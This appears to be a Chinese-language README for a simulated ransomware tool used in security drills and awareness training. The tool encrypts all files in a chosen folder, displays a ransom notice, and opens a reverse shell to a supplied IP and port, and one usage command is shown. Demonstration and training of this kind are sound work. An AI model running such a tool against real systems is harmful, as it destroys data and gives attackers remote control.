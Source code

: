 ## 使用场景
因安服需要进行应急演练及安全意识教育，不能对生产环境造成破坏，故使用模拟勒索进行演示，达到寓教于乐的效果

### 声明

本程序仅模拟勒索病毒环境，加密指定文件夹下的所有文件，在加密完成后显示勒索提示;提供IP及端口可进行反弹shell。 

仅供学习或用于安全意识培训提供参考，未经授权请勿进行破坏性测试，利用提供的信息造成的直接或间接损失，由使用者承担。

### 使用方法

使用参数-h查看
![](image/1.png)

#### 给定IP端口反弹shell,加密指定文件夹中的文件

``` 
racket.exe -H IP -P port "C:\Users\Administrator\Desktop\test"
```

加密文件

![](image/2.png)

反弹执行

![](image/3.png)
